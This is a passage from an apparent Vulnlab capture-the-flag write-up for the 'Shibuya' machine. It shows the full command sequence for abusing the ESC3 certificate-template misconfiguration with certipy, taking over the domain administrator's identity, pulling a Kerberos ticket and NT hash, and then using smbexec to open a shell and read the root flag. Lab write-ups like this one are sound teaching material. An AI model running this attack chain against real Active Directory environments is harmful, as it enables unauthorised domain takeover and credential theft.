 ### ESC3
We can follow steps from:
- [esc3-misconfigured-enrollment-agent-templates](https://swisskyrepo.github.io/InternalAllTheThings/active-directory/ad-adcs-certificate-services/#esc3-misconfigured-enrollment-agent-templates)
- [esc3-certificate-agent-eku](https://www.thehacker.recipes/ad/movement/adcs/certificate-templates#esc3-certificate-agent-eku)


```
└─$ certipy req -u nigel.mills@shibuya.vl -p '<REDACTED>' -dc-ip 10.10.84.227 -ca shibuya-AWSJPDC0522-CA -template ShibuyaWeb -key-size 4096
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 9
[*] Got certificate without identification
[*] Certificate has no object SID
[*] Saved certificate and private key to 'nigel.mills.pfx'

```
```
└─$ certipy req -u nigel.mills@shibuya.vl -p '<REDACTED>' -dc-ip 10.10.84.227 -ca shibuya-AWSJPDC0522-CA -template User -key-size 4096 -pfx nigel.mills.pfx -on-behalf-of 'shibuya\_admin'   
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 11
[*] Got certificate with UPN '_admin@shibuya.vl'
[*] Certificate object SID is 'S-1-5-21-87560095-894484815-3652015022-500'
[*] Saved certificate and private key to '_admin.pfx'
```
```
└─$ certipy auth -pfx '_admin.pfx' -username _admin -dc-ip 10.10.84.227 -domain 'shibuya.vl'                                                                                           
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: _admin@shibuya.vl
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to '_admin.ccache'
[*] Trying to retrieve NT hash for '_admin'
[*] Got hash for '_admin@shibuya.vl': aad3b435b51404eeaad3b435b51404ee:<REDACTED>

```

Connect and grab the flag
```
└─$ KRB5CCNAME=_admin.ccache smbexec.py -k -no-pass AWSJPDC0522.shibuya.vl 
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>type \users\administrator\desktop\flag.txt
The system cannot find the file specified.

C:\Windows\system32>type \users\administrator\desktop\root.txt
VL{<REDACTED>}
```

[https://api.vulnlab.com/api/v1/share?id=3faa2262-9bee-4433-883a-4fb13e951093](https://api.vulnlab.com/api/v1/share?id=3faa2262-9bee-4433-883a-4fb13e951093)